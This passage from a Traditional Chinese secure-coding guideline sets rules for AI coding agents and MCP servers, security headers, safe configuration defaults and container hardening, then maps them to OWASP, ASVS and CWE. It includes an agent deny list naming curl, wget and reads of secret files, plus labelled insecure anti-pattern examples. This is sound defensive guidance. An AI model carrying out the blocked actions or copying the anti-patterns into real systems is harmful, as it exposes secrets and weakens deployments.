| `SCG-AI-007` | 必須 | AI 程式碼代理不得持有正式環境的憑證；必須以權限設定禁止讀取秘密檔案（`.env`、金鑰、憑證）與執行高風險命令（任意網路傳輸、刪除、部署），高風險操作必須經人工核准；處理不可信內容（外部 Issue、網頁）時應在沙箱或容器中執行 | 👁 設定審查（代理的權限設定檔納入版本控制並經審查） |
| `SCG-AI-008` | 必須 | 提供給 AI 代理的 MCP 伺服器與外掛必須來自可信來源、固定版本，並以最小權限的權杖執行；新增 MCP 伺服器視同新增相依套件（`SCG-SUP-004`）審查 | 👁 設定審查 |

```json
{
  "_comment": "✅ SCG-AI-007：Claude Code 專案設定（.claude/settings.json）範例：禁止讀取秘密、禁止任意網路傳輸，部署命令需要詢問",
  "permissions": {
    "deny": [
      "Read(./.env)",
      "Read(./.env.*)",
      "Read(./secrets/**)",
      "Read(**/*.pem)",
      "Bash(curl:*)",
      "Bash(wget:*)",
      "Bash(kubectl:*)"
    ],
    "ask": [
      "Bash(git push:*)",
      "Bash(npm publish:*)"
    ],
    "allow": [
      "Bash(npm run test:*)",
      "Bash(mvn -q test:*)"
    ]
  }
}
```

```json
{
  "_comment": "✅ SCG-AI-008：MCP 伺服器設定（.mcp.json）：固定版本、唯讀權杖由環境變數提供",
  "mcpServers": {
    "issue-tracker": {
      "command": "npx",
      "args": ["-y", "@example-org/issue-tracker-mcp@2.3.1"],
      "env": { "TRACKER_TOKEN": "${TRACKER_READONLY_TOKEN}" }
    }
  }
}
```

#### 🔍 16.2 審查與驗證

- **自動檢查：** 代理的權限設定檔（例如 `.claude/settings.json`、`.mcp.json`）納入版本控制，CODEOWNERS 指定資安審查；Gitleaks 掃描這些設定檔，確認沒有寫入權杖。
- **人工審查問題：**
  1. 代理能讀取哪些檔案？能執行哪些命令？能連到哪些網路位址？
  2. MCP 伺服器的權杖是唯讀還是可寫？範圍是整個組織還是單一專案？
  3. 代理處理外部 Issue 或 PR 時，是否在隔離的環境執行？
- **AI 常見錯誤：** 為了減少確認提示而允許所有命令；把個人的高權限權杖寫入 MCP 設定檔並提交；以 `npx -y 套件名稱` 不指定版本執行 MCP 伺服器。

## 17. 設定與部署相關的程式碼

「安全設定錯誤」在 OWASP Top 10:2025 由第 5 名升到第 2 名。現代系統的設定大多以程式碼的形式存在於程式庫中：`application.yml`、`Dockerfile`、Kubernetes 清單、Helm values。因此「設定」也是開發者的責任，也必須經過程式碼審查與工具檢查。平台層級的基準（叢集強化、准入政策、雲端帳號）見 [架構設計指引]() 第 13 章。

### 17.1 HTTP 安全標頭

| 標頭 | 建議值 | 作用 |
| --- | --- | --- |
| `Strict-Transport-Security` | `max-age=31536000; includeSubDomains` | 強制瀏覽器只以 HTTPS 連線 |
| `Content-Security-Policy` | 見 `SCG-FE-001` | 限制可執行的腳本來源；`frame-ancestors` 防止點擊劫持 |
| `X-Content-Type-Options` | `nosniff` | 禁止瀏覽器猜測內容型別 |
| `X-Frame-Options` | `DENY`（或以 CSP `frame-ancestors` 取代） | 舊瀏覽器的點擊劫持防護 |
| `Referrer-Policy` | `strict-origin-when-cross-origin` 或 `no-referrer` | 避免網址中的資訊外洩到其他網站 |
| `Permissions-Policy` | 例如 `camera=(), microphone=(), geolocation=()` | 關閉不需要的瀏覽器功能 |
| `Cache-Control` | 含個資的回應使用 `no-store` | 避免共用電腦或代理伺服器快取敏感資料 |
| `X-XSS-Protection` | **不設定，或設為 `0`** | 舊版瀏覽器的 XSS 過濾器本身會造成弱點，現代瀏覽器已移除；v2.0 建議「啟用」是錯誤的 |

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `SCG-CFG-001` | 必須 | 所有回應 HTML 或 API 資料的服務都必須設定 17.1 表格中的安全標頭；Spring Security 的預設標頭不得被停用（`headers.disable()`），只能調整；含個資的回應必須設定 `Cache-Control: no-store` | 🤖 ZAP 被動掃描 `10035`、`10020`、`10021`、`10038`；🧪 回應標頭測試 |

```java
// ✅ SCG-CFG-001：Spring Security 保留預設標頭（X-Content-Type-Options、X-Frame-Options、Cache-Control、X-XSS-Protection: 0），
//    並加上 HSTS、Referrer-Policy、Permissions-Policy
package com.example.scg.cfg;

import org.springframework.context.annotation.Bean;
import org.springframework.context.annotation.Configuration;
import org.springframework.core.annotation.Order;
import org.springframework.security.config.Customizer;
import org.springframework.security.config.annotation.web.builders.HttpSecurity;
import org.springframework.security.web.SecurityFilterChain;
import org.springframework.security.web.header.writers.ReferrerPolicyHeaderWriter.ReferrerPolicy;
import org.springframework.security.web.header.writers.StaticHeadersWriter;

@Configuration
public class SecurityHeadersConfig {

    @Bean
    @Order(30)
    SecurityFilterChain portal(HttpSecurity http) throws Exception {
        http
            .securityMatcher("/portal/**")
            .authorizeHttpRequests(auth -> auth.anyRequest().authenticated())
            .formLogin(Customizer.withDefaults())
            .headers(h -> h
                .httpStrictTransportSecurity(hsts -> hsts.includeSubDomains(true).maxAgeInSeconds(31_536_000))
                .frameOptions(f -> f.deny())
                .referrerPolicy(r -> r.policy(ReferrerPolicy.STRICT_ORIGIN_WHEN_CROSS_ORIGIN))
                .addHeaderWriter(new StaticHeadersWriter("Permissions-Policy", "camera=(), microphone=(), geolocation=()"))
                .contentSecurityPolicy(csp -> csp.policyDirectives(
                        "default-src 'self'; object-src 'none'; base-uri 'self'; frame-ancestors 'none'")));
        return http.build();
    }
}
```

```java
// ❌ SCG-CFG-001：v2.0 範例使用的 and() 串接已在 Spring Security 7 移除；停用所有預設標頭更是錯誤
http.headers(headers -> headers.disable());
```

（片段：停用標頭的反例。）

#### 🔍 17.1 審查與驗證

- **自動檢查：** `curl -sI https://portal.example.com/portal/ | grep -iE "strict-transport|content-security|x-content-type|referrer-policy|permissions-policy"`；ZAP 被動掃描的標頭規則；也可以用 [securityheaders.com](https://securityheaders.com/) 或 Mozilla HTTP Observatory 檢查對外網站。
- **人工審查問題：** 標頭是由應用程式設定還是由反向代理（Nginx、Gateway）設定？兩邊都設定時是否互相衝突（例如出現兩個 CSP）？
- **AI 常見錯誤：** 加上 `X-XSS-Protection: 1; mode=block`；`headers.disable()` 或 `frameOptions().disable()` 以「讓 iframe 可以運作」；使用 Spring Security 7 已移除的 `and()` 寫法。

### 17.2 環境設定與預設值

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `SCG-CFG-002` | 必須 | 正式環境的設定必須是「安全的預設值」：除錯模式、詳細錯誤、API 文件介面、資料庫主控台、範例程式、預設帳號都必須關閉或移除；安全相關設定應寫在預設設定檔中，由開發環境的設定檔放寬，而不是反過來 | 🧪 以正式環境設定啟動的冒煙測試；👁 設定差異審查 |
| `SCG-CFG-003` | 必須 | 各環境設定檔的差異必須納入程式碼審查；影響安全的設定（CORS、Actuator、Session、TLS、日誌層級）變更必須由 CODEOWNERS 審查（`SCG-SDL-004`） | 🤖 CODEOWNERS；👁 程式碼審查 |

```yaml
# ✅ SCG-CFG-002：application.yml（預設＝正式環境的安全值）
server:
  error:
    include-stacktrace: never
    include-message: never
spring:
  h2:
    console:
      enabled: false
management:
  endpoints:
    web:
      exposure:
        include: health
logging:
  level:
    root: INFO
---
# 只有明確啟用 local profile 時才放寬（application-local.yml 也可以）
spring:
  config:
    activate:
      on-profile: local
server:
  error:
    include-message: always
logging:
  level:
    com.example: DEBUG
```

```yaml
# ❌ SCG-CFG-002：預設設定是開發用的寬鬆值，正式環境必須記得「關掉」才安全；忘記一次就外洩
server:
  error:
    include-stacktrace: always
spring:
  h2:
    console:
      enabled: true
      settings:
        web-allow-others: true
management:
  endpoints:
    web:
      exposure:
        include: "*"
```

```text
# ✅ SCG-CFG-003：.github/CODEOWNERS，影響安全的設定檔變更必須由資安審查小組核准
/src/main/resources/application*.yml   @example-org/appsec-reviewers
/deploy/k8s/                           @example-org/platform-team @example-org/appsec-reviewers
/helm/**/values-prod.yaml              @example-org/platform-team @example-org/appsec-reviewers
```

#### 🔍 17.2 審查與驗證

- **自動檢查：** CI 以不指定任何 profile 的方式啟動應用程式，檢查 `/actuator/env`、`/h2-console`、`/swagger-ui.html` 回 404，錯誤回應不含 `trace`；附錄 B.1 的 Semgrep 規則 `scg-actuator-expose-all`。
- **人工審查問題：** 不指定 profile 時，系統的行為是安全的嗎？哪些設定只在 `application-prod.yml` 中才變安全？
- **AI 常見錯誤：** 在預設設定檔開啟除錯，期待部署時以 prod profile 覆寫；把開發用的寬鬆設定直接複製到正式環境。

### 17.3 容器與 Kubernetes 清單

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `SCG-CFG-004` | 必須 | 容器映像必須以非 root 使用者執行、以 digest 固定基礎映像、使用最小化的基礎映像（JRE 而非 JDK、distroless 或 slim），且不得在映像層中留下秘密（不得以 `ENV`、`ARG`、`COPY` 放入秘密；建置時需要的秘密使用 BuildKit 的 `--mount=type=secret`） | 🤖 hadolint；🤖 Trivy（映像弱點與秘密掃描） |
| `SCG-CFG-005` | 必須 | Kubernetes 工作負載必須設定 `securityContext`：`runAsNonRoot: true`、`allowPrivilegeEscalation: false`、`readOnlyRootFilesystem: true`、`capabilities.drop: [ALL]`、`seccompProfile.type: RuntimeDefault`，並設定資源請求與上限；不得使用 `privileged`、`hostNetwork`、`hostPath` | 🤖 kubeconform（語法）；🤖 Checkov、Kubescape 或 Pod Security Admission `restricted` |
| `SCG-CFG-006` | 必須 | CI 必須掃描容器映像（Trivy、Grype）與基礎架構程式碼（Checkov、Trivy config），高風險以上的發現必須阻擋發布 | 🤖 CI 設定檢查 |

```dockerfile
# ✅ SCG-CFG-004：多階段建置；以 digest 固定基礎映像；JRE 執行環境；非 root 使用者；建置秘密不進入映像層
# syntax=docker/dockerfile:1.7
FROM eclipse-temurin:25-jdk-noble@sha256:589ff4cc3f71aab462e7048a47a0d10edf57fbccde3fceea2281e610bf5880b4 AS build
WORKDIR /src
COPY . .
RUN --mount=type=secret,id=maven_settings,target=/root/.m2/settings.xml \
    ./mvnw -B -ntp package -DskipTests

FROM eclipse-temurin:25-jre-noble@sha256:d9a39a23634650173f1e2bbc176227af9728587ecf0f4b62d53e9355cd7a19ab
RUN groupadd --system --gid 10001 app && useradd --system --uid 10001 --gid app --no-create-home app
WORKDIR /app
COPY --from=build --chown=app:app /src/target/order-service.jar app.jar
USER 10001:10001
EXPOSE 8080
HEALTHCHECK --interval=30s --timeout=3s CMD ["wget", "-qO-", "http://localhost:8080/actuator/health/liveness"]
ENTRYPOINT ["java", "-XX:MaxRAMPercentage=75", "-jar", "/app/app.jar"]
```

```dockerfile
# ❌ SCG-CFG-004：可變的 latest 標籤、完整 JDK、以 root 執行、把秘密寫入映像層（即使之後刪除，舊層仍可取出）
FROM openjdk:latest
COPY . /app
ENV DB_PASSWORD=Pr0d-P@ssw0rd
RUN echo "machine repo.example.com login ci password s3cr3t" > /root/.netrc && cd /app && ./mvnw package && rm /root/.netrc
CMD java -jar /app/target/order-service.jar
```

```yaml
# ✅ SCG-CFG-005：符合 Pod Security Standards restricted 等級的 Deployment
apiVersion: apps/v1
kind: Deployment
metadata:
  name: order-service
  namespace: ordering
spec:
  replicas: 2
  selector:
    matchLabels:
      app: order-service
  template:
    metadata:
      labels:
        app: order-service
    spec:
      automountServiceAccountToken: false
      securityContext:
        runAsNonRoot: true
        runAsUser: 10001
        runAsGroup: 10001
        seccompProfile:
          type: RuntimeDefault
      containers:
        - name: app
          image: registry.example.com/ordering/order-service@sha256:4f2c0b6a9e8d7c6b5a4f3e2d1c0b9a8f7e6d5c4b3a2f1e0d9c8b7a6f5e4d3c2b
          ports:
            - containerPort: 8080
          securityContext:
            allowPrivilegeEscalation: false
            readOnlyRootFilesystem: true
            capabilities:
              drop: [ALL]
          resources:
            requests:
              cpu: 250m
              memory: 512Mi
            limits:
              memory: 768Mi
          envFrom:
            - secretRef:
                name: order-service-secrets
          volumeMounts:
            - name: tmp
              mountPath: /tmp
      volumes:
        - name: tmp
          emptyDir:
            sizeLimit: 64Mi
```

```bash
# ✅ SCG-CFG-006：CI 中掃描映像與 Kubernetes 清單，高風險以上即失敗
trivy image --severity HIGH,CRITICAL --exit-code 1 --scanners vuln,secret registry.example.com/ordering/order-service:3.2.0
trivy config --severity HIGH,CRITICAL --exit-code 1 deploy/k8s/
```

#### 🔍 17.3 審查與驗證

- **自動檢查：** `hadolint Dockerfile`（`DL3007` 禁止 `latest`、`DL3002` 最後的使用者不得為 root）；`kubeconform -strict` 驗證清單語法；`trivy config` 或 Checkov 檢查 `securityContext`；命名空間以 `pod-security.kubernetes.io/enforce: restricted` 標籤讓叢集拒絕不符合的 Pod。
- **人工審查問題：**
  1. 映像中是否有不必要的工具（Shell、套件管理器、`curl`）？它們會成為攻擊者入侵後的工具。
  2. `readOnlyRootFilesystem: true` 之後，應用程式需要寫入的目錄（`/tmp`、快取）是否以 `emptyDir` 提供？
  3. 秘密以環境變數注入時，是否會被 `/actuator/env` 或錯誤頁面顯示？
- **AI 常見錯誤：** `FROM openjdk:latest`（該映像已停止維護）；`USER root`；`securityContext` 只設在容器層級而漏掉 Pod 層級；以 `ENV` 傳入密碼。

## 18. 國際標準對照

稽核、客戶問卷或合約常要求說明「是否符合某標準」。本章把本指引的規則對照到主要的國際標準，可直接作為回覆的依據。對照表表示「本指引的規則有涵蓋該項目的程式碼層級要求」，不代表通過該標準的完整驗證；ASVS 的完整驗證仍需依其要求逐項測試。

### 18.1 OWASP Top 10:2025

| 編號 | 風險 | 本指引的規則 |
| --- | --- | --- |
| A01:2025 | 存取控制失效（含 SSRF） | `SCG-ACL-001`–`SCG-ACL-008`、`SCG-GEN-010`、`SCG-IO-003`、`SCG-IO-005`、`SCG-JAVA-008`、`SCG-JAVA-010`、`SCG-FE-013` |
| A02:2025 | 安全設定錯誤 | `SCG-CFG-001`–`SCG-CFG-006`、`SCG-JAVA-007`、`SCG-PY-008`、`SCG-JS-008`、`SCG-API-007` |
| A03:2025 | 軟體供應鏈失效 | `SCG-SUP-001`–`SCG-SUP-008`、`SCG-FE-005`、`SCG-FE-014`、`SCG-AI-006`、`SCG-AI-008` |
| A04:2025 | 密碼學失效 | `SCG-CRY-001`–`SCG-CRY-010`、`SCG-AUTH-001` |
| A05:2025 | 注入 | `SCG-GEN-006`、`SCG-SQL-001`–`SCG-SQL-006`、`SCG-SP-001`、`SCG-SP-002`、`SCG-JAVA-001`–`SCG-JAVA-003`、`SCG-JAVA-009`、`SCG-PY-001`、`SCG-PY-002`、`SCG-PY-006`、`SCG-JS-001`、`SCG-JS-002`、`SCG-FE-001`–`SCG-FE-004`、`SCG-FE-008`–`SCG-FE-012`、`SCG-AI-002` |
| A06:2025 | 不安全的設計 | `SCG-GEN-012`–`SCG-GEN-014`、`SCG-API-006`、`SCG-AI-001`、`SCG-AI-003`、`SCG-SDL-001` |
| A07:2025 | 身分驗證失效 | `SCG-AUTH-001`–`SCG-AUTH-016` |
| A08:2025 | 軟體或資料完整性失效 | `SCG-JAVA-004`、`SCG-JAVA-005`、`SCG-PY-003`、`SCG-JS-004`、`SCG-SUP-007`、`SCG-SUP-008`、`SCG-CRY-002` |
| A09:2025 | 安全記錄與警示失效 | `SCG-LOG-001`–`SCG-LOG-004`、`SCG-LOG-007` |
| A10:2025 | 例外狀況處理不當 | `SCG-GEN-008`、`SCG-GEN-009`、`SCG-LOG-005`、`SCG-LOG-006`、`SCG-SP-005`、`SCG-API-002` |

### 18.2 OWASP ASVS 5.0

| ASVS 5.0 章節 | 主題 | 本指引的章節與規則 |
| --- | --- | --- |
| V1 | 編碼與清理（含注入、反序列化） | 2.3、第 6、7、8、10、11 章；`SCG-GEN-006`、`SCG-JAVA-004`、`SCG-JAVA-005` |
| V2 | 驗證與業務邏輯 | 2.2、2.5；`SCG-GEN-002`–`SCG-GEN-005`、`SCG-GEN-012`–`SCG-GEN-014` |
| V3 | Web 前端安全 | 第 9 章、17.1；`SCG-FE-001`–`SCG-FE-016`、`SCG-AUTH-008`、`SCG-CFG-001` |
| V4 | API 與 Web 服務 | 第 12 章；`SCG-API-001`–`SCG-API-010` |
| V5 | 檔案處理 | 13.1、13.2；`SCG-IO-001`–`SCG-IO-004` |
| V6 | 身分驗證 | 3.1、3.2、3.5；`SCG-AUTH-001`–`SCG-AUTH-006`、`SCG-AUTH-015`、`SCG-AUTH-016` |
| V7 | 工作階段管理 | 3.3；`SCG-AUTH-007`–`SCG-AUTH-010` |
| V8 | 授權 | 第 4 章；`SCG-ACL-001`–`SCG-ACL-008` |
| V9 | 自帶內容的權杖 | 3.4；`SCG-AUTH-011`、`SCG-AUTH-014` |
| V10 | OAuth 與 OIDC | 3.4；`SCG-AUTH-012`、`SCG-AUTH-013` |
| V11 | 密碼學 | 5.1、5.2、5.5；`SCG-CRY-001`–`SCG-CRY-004`、`SCG-CRY-010` |
| V12 | 安全通訊 | 5.4；`SCG-CRY-006`、`SCG-CRY-007` |
| V13 | 組態（含秘密管理） | 5.3、第 17 章；`SCG-CRY-005`、`SCG-CRY-008`、`SCG-CRY-009`、`SCG-CFG-002`、`SCG-JAVA-007` |
| V14 | 資料保護 | 14.1；`SCG-LOG-002`、`SCG-FE-007`、`SCG-AI-004` |
| V15 | 安全程式碼與架構（含相依套件、並行） | 第 1、15 章、2.5；`SCG-SUP-001`–`SCG-SUP-005`、`SCG-GEN-014` |
| V16 | 安全記錄與錯誤處理 | 第 14 章；`SCG-LOG-001`–`SCG-LOG-007`、`SCG-API-002` |
| V17 | WebRTC | 本指引未涵蓋（企業應用較少使用）；使用時請直接依 ASVS V17 |

### 18.3 CWE Top 25（2025）

Java、Python、JavaScript 等記憶體安全語言不會直接產生緩衝區溢位類的弱點（CWE-787、CWE-416、CWE-125、CWE-120、CWE-121、CWE-122、CWE-476 中的記憶體破壞），但使用 JNI、原生擴充套件或 C／C++ 函式庫時仍需注意，這部分請依 CERT C／C++ 安全程式碼標準。

| 排名 | CWE | 名稱 | 本指引的規則 |
| --- | --- | --- | --- |
| 1 | CWE-79 | 跨站腳本 | `SCG-GEN-006`、`SCG-FE-001`–`SCG-FE-004`、`SCG-FE-008`–`SCG-FE-012`、`SCG-JAVA-009` |
| 2 | CWE-89 | SQL 注入 | `SCG-SQL-001`–`SCG-SQL-003`、`SCG-SP-001`、`SCG-SP-002`、`SCG-PY-006` |
| 3 | CWE-352 | 跨站請求偽造 | `SCG-AUTH-010`、`SCG-AUTH-008` |
| 4 | CWE-862 | 缺少授權 | `SCG-ACL-001`、`SCG-ACL-004`、`SCG-GEN-010`、`SCG-FE-013` |
| 6 | CWE-22 | 路徑穿越 | `SCG-IO-003`、`SCG-IO-004`、`SCG-JS-003` |
| 9 | CWE-78 | 作業系統命令注入 | `SCG-JAVA-001`、`SCG-PY-001`、`SCG-JS-001` |
| 10 | CWE-94 | 程式碼注入 | `SCG-JAVA-002`、`SCG-PY-002`、`SCG-JS-002`、`SCG-AI-002` |
| 12 | CWE-434 | 未限制的危險檔案上傳 | `SCG-IO-001`、`SCG-IO-002` |
| 13 | CWE-476 | NULL 指標解參考 | `SCG-LOG-005`（Java 的 `NullPointerException` 屬於例外處理） |
| 15 | CWE-502 | 不可信資料的反序列化 | `SCG-JAVA-004`、`SCG-JAVA-005`、`SCG-PY-003`、`SCG-AI-006`、`SCG-FE-014` |
| 17 | CWE-863 | 授權錯誤 | `SCG-ACL-002`、`SCG-ACL-006`、`SCG-ACL-007` |
| 18 | CWE-20 | 不當的輸入驗證 | `SCG-GEN-002`–`SCG-GEN-005`、`SCG-JS-006` |
| 19 | CWE-284 | 不當的存取控制 | 第 4 章、`SCG-SP-003`、`SCG-SP-004` |
| 20 | CWE-200 | 敏感資訊揭露 | `SCG-API-002`、`SCG-LOG-002`、`SCG-FE-007`、`SCG-AUTH-003` |
| 21 | CWE-306 | 關鍵功能缺少身分驗證 | `SCG-GEN-010`、`SCG-AUTH-005`、`SCG-FE-013` |
| 22 | CWE-918 | 伺服器端請求偽造 | `SCG-IO-005`、`SCG-IO-006` |
| 23 | CWE-77 | 命令注入 | `SCG-JAVA-001`、`SCG-PY-001`、`SCG-JS-001`、`SCG-SP-006` |
| 24 | CWE-639 | 透過使用者控制的鍵值繞過授權 | `SCG-ACL-001`–`SCG-ACL-003` |
| 25 | CWE-770 | 未限制的資源配置 | `SCG-GEN-009`、`SCG-API-004`、`SCG-API-005`、`SCG-AI-005`、`SCG-JS-005` |

### 18.4 其他標準與法規

| 標準或法規 | 相關條款 | 本指引的對應 |
| --- | --- | --- |
| NIST SP 800-218 SSDF | PO.1（安全需求）、PS.1（保護程式碼）、PW.4（重用安全的軟體）、PW.5（安全程式碼實務）、PW.7（審查程式碼）、PW.8（測試）、RV.1–RV.3（弱點回應） | 第 1、15、20 章；`SCG-SDL-*`、`SCG-SUP-*`、`SCG-REV-*` |
| ISO/IEC 27002:2022 | 8.25 安全開發生命週期、8.26 應用程式安全要求、8.27 安全系統架構與工程原則、8.28 安全程式碼撰寫、8.29 開發與驗收的安全測試、8.8 技術弱點管理 | 本指引整體即為 8.28 的實作；8.8 對應 `SCG-SDL-005`、`SCG-SUP-001` |
| PCI DSS 4.0.1 | 6.2.1–6.2.4（安全開發、程式碼審查、防止常見弱點）、6.3.1–6.3.3（弱點識別與修補、元件清冊）、6.4.3（付款頁面腳本管理）、8.3（身分驗證）、10.2（稽核日誌） | 6.2.4 對應第 2–14 章；6.3.2 對應 `SCG-SUP-007`；6.4.3 對應 `SCG-FE-001`、`SCG-FE-005`；8.3 對應第 3 章；10.2 對應 `SCG-LOG-001` |
| NIST SP 800-63B-4 | 密碼、多因子、通行金鑰、工作階段 | 第 3 章 |
| OWASP Top 10 for LLM Applications 2025 | LLM01–LLM10 | 第 16 章 |
| 資通安全管理法與其子法 | 委外開發的安全要求（含源碼檢測、弱點掃描、滲透測試等，依機關資通安全責任等級） | `SCG-SDL-002`、`SCG-SUP-001`、`SCG-REV-002`；檢測的規劃見測試與品質保證指引第 13 章 |
| 個人資料保護法 | 適當安全措施、外洩通報 | `SCG-LOG-002`、`SCG-CRY-005`、`SCG-AI-004`；流程見系統設計指引第 17 章 |

## 19. 常見錯誤與反例

本章整理程式碼審查中最常見的安全錯誤，每一項都標出對應的規則與正確寫法所在的章節，可作為新進人員的入門教材與審查時的速查表。「AI 常見」欄標示 AI 程式碼助理特別容易產生的錯誤。

### 19.1 密碼與憑證處理錯誤

| 錯誤寫法 | 為什麼危險 | 正確做法 | 規則 | AI 常見 |
| --- | --- | --- | --- | --- |
| `DigestUtils.md5Hex(password)`、`sha256(salt + password)` | 一般雜湊太快，外洩後可被大量暴力破解 | Argon2id／bcrypt＋`DelegatingPasswordEncoder` | `SCG-AUTH-001` | ✔ |
| 密碼必須含大小寫、數字、符號，每 90 天更換 | NIST 已禁止；使用者會選出可預測的密碼 | 長度優先＋外洩密碼比對 | `SCG-AUTH-002` | ✔ |
| 「查無此帳號」與「密碼錯誤」分開顯示 | 攻擊者可列舉帳號 | 一致的錯誤訊息與回應時間 | `SCG-AUTH-003` | ✔ |
| JWT 以寫死在程式碼中的 HMAC 密鑰簽章 | 密鑰外洩後任何人都能簽發權杖 | 由 IdP 以非對稱金鑰簽發，資源伺服器以 JWKS 驗證 | `SCG-AUTH-011`、`SCG-CRY-008` | ✔ |
| 以 `jwt.decode()` 取得使用者身分 | 沒有驗證簽章 | 以函式庫驗證簽章、`iss`、`aud`、`exp` | `SCG-AUTH-011` | ✔ |

### 19.2 SQL 查詢錯誤

| 錯誤寫法 | 為什麼危險 | 正確做法 | 規則 | AI 常見 |
| --- | --- | --- | --- | --- |
| `"... WHERE name = '" + name + "'"` | SQL 注入 | 參數綁定 | `SCG-SQL-001` | ✔ |
| MyBatis `${name}` | 字串替換，等同串接 | `#{name}` | `SCG-SQL-002` | ✔ |
| `"ORDER BY " + sortField` | 排序注入（布林盲注） | 列舉對應的允許清單 | `SCG-SQL-003` | ✔ |
| 預存程序內 `EXEC('...' + @val)` | 預存程序內的注入，且常以較高權限執行 | `sp_executesql` 參數綁定 | `SCG-SP-001` | ✔ |
| 應用程式以 `sa`／`postgres` 連線 | 注入成功即可控制整個資料庫 | 最小權限帳號 | `SCG-GEN-001` | ✔ |

### 19.3 檔案上傳錯誤

| 錯誤寫法 | 為什麼危險 | 正確做法 | 規則 | AI 常見 |
| --- | --- | --- | --- | --- |
| 以 `file.getContentType()` 或副檔名判斷型別 | 兩者都由用戶端控制 | 以檔案內容判斷並比對允許清單 | `SCG-IO-001` | ✔ |
| 以 `getOriginalFilename()` 作為儲存檔名 | 路徑穿越、覆寫既有檔案 | 伺服器產生的隨機檔名 | `SCG-IO-001` | ✔ |
| 上傳到 `static/uploads` 並直接提供 | 上傳的 HTML／SVG／JSP 會被執行 | 存在網站根目錄之外，以附件下載 | `SCG-IO-001`、`SCG-IO-002` | ✔ |
| 解壓縮時以 `entry.getName()` 組合路徑 | Zip Slip、壓縮炸彈 | 路徑檢查＋大小與壓縮比上限 | `SCG-IO-004` | ✔ |

### 19.4 前端 XSS 錯誤

| 錯誤寫法 | 為什麼危險 | 正確做法 | 規則 | AI 常見 |
| --- | --- | --- | --- | --- |
| `el.innerHTML = apiResponse` | DOM 型 XSS | `textContent`；必要時 DOMPurify | `SCG-FE-003` | ✔ |
| `v-html`、`dangerouslySetInnerHTML` 直接輸出 | 繞過框架的自動編碼 | 先以 DOMPurify 清理 | `SCG-FE-008`、`SCG-FE-012` | ✔ |
| `bypassSecurityTrustHtml(userInput)` | 關閉 Angular 的清理 | 直接綁定 `[innerHTML]` 讓 Angular 清理 | `SCG-FE-010` | ✔ |
| `:href="user.website"` | `javascript:` URL | 以 `URL` 解析並檢查通訊協定 | `SCG-FE-004` | ✔ |
| CSP 加上 `'unsafe-inline'` | CSP 失去作用 | nonce／hash 的嚴格 CSP | `SCG-FE-001` | ✔ |
| 把 Access Token 存在 `localStorage` | XSS 即可竊取權杖 | BFF 模式、`HttpOnly` Cookie | `SCG-AUTH-012` | ✔ |

### 19.5 權限控制錯誤

| 錯誤寫法 | 為什麼危險 | 正確做法 | 規則 | AI 常見 |
| --- | --- | --- | --- | --- |
| `repository.findById(id)` 直接回傳 | IDOR：可讀取任何人的資料 | 擁有者條件寫進查詢 | `SCG-ACL-001`、`SCG-ACL-002` | ✔ |
| 只在前端以 `v-if="isAdmin"` 隱藏功能 | 直接呼叫 API 即可使用 | 伺服器端授權 | `SCG-ACL-004` | ✔ |
| `@RequestBody UserEntity` | 大量賦值（自行加上 `role`） | 只含允許欄位的 DTO | `SCG-ACL-005` | ✔ |
| 以 `X-Tenant-Id` 標頭決定租戶 | 改標頭即可讀取其他客戶資料 | 租戶取自權杖，資料層強制套用 | `SCG-ACL-007` | ✔ |
| `anyRequest().permitAll()` | 新端點預設公開 | 預設拒絕 | `SCG-GEN-010` | ✔ |
| 授權測試只測「成功」 | 測不出 IDOR 與越權 | 未登入、缺少權限、他人資料三種情境 | `SCG-ACL-008` | ✔ |

### 19.6 API 設計錯誤

| 錯誤寫法 | 為什麼危險 | 正確做法 | 規則 | AI 常見 |
| --- | --- | --- | --- | --- |
| 錯誤回應包含堆疊追蹤與 SQL | 洩漏內部結構，協助攻擊者 | RFC 9457 Problem Details＋追蹤碼 | `SCG-API-002` | ✔ |
| 沒有速率限制 | 暴力破解、爬取、資源耗盡 | 依帳號與來源的速率限制 | `SCG-API-004` | ✔ |
| `?size=` 沒有上限 | 單一請求拉出整張表 | `@Max(100)` | `SCG-GEN-009` | ✔ |
| OpenAPI 欄位沒有 `maxLength` | 超大輸入、驗證缺口 | 契約中定義所有限制 | `SCG-API-001` | ✔ |
| 正式環境開放 Swagger UI、H2 Console | 暴露內部 API 與資料庫 | 正式環境關閉 | `SCG-API-007` | ✔ |
| 付款 API 沒有冪等鍵 | 逾時重送造成重複扣款 | `Idempotency-Key` | `SCG-API-006` | |

### 19.7 配置錯誤

| 錯誤寫法 | 為什麼危險 | 正確做法 | 規則 | AI 常見 |
| --- | --- | --- | --- | --- |
| `management.endpoints.web.exposure.include: "*"` | `heapdump` 可取得記憶體中的密碼與權杖 | 只公開 `health`、`info` | `SCG-JAVA-007` | ✔ |
| `csrf.disable()` | Cookie 驗證的系統失去 CSRF 防護 | 保持啟用；SPA 用 `csrf.spa()` | `SCG-AUTH-010` | ✔ |
| `setAllowedOriginPatterns("*")`＋`allowCredentials(true)` | 任何網站都能以使用者身分呼叫 API | 明確列出來源 | `SCG-JAVA-008` | ✔ |
| `verify=False`、`rejectUnauthorized: false` | 中間人攻擊 | 加入內部 CA，不關閉驗證 | `SCG-CRY-006` | ✔ |
| `app.run(debug=True)`、`DEBUG = True` | 遠端程式執行（Werkzeug 除錯器） | 正式環境關閉 | `SCG-PY-008` | ✔ |
| `FROM openjdk:latest`、以 root 執行 | 不可重現、權限過大 | digest 固定、非 root | `SCG-CFG-004` | ✔ |
| GitHub Action 以 `@v4` 引用 | 標籤可被改指向惡意版本 | 完整 commit SHA | `SCG-SUP-006` | ✔ |
| 密碼寫在 `application.yml` | 進入 Git 歷史即外洩 | 秘密管理系統注入 | `SCG-CRY-008` | ✔ |

## 20. 審查流程與檢查清單

本章把前面各章的規則轉成日常工作中可以直接使用的檢查清單與流程。一般的程式碼審查方法見 [code review 指引]()；安全測試的完整規劃（DAST、滲透測試的時機與範圍）見 [測試與品質保證指引]() 第 13 章。



### 20.1 每日開發檢查項目

開發者在提交程式碼前自我檢查。大部分項目已由 IDE 外掛與 pre-commit 自動化，人工只需確認工具有在執行。

```markdown
<!-- 每日開發自我檢查 -->
- [ ] IDE 的 Semgrep／SonarQube for IDE／ESLint 安全規則沒有新的警告
- [ ] pre-commit 的 Gitleaks 有執行，沒有被 --no-verify 略過（SCG-SDL-003）
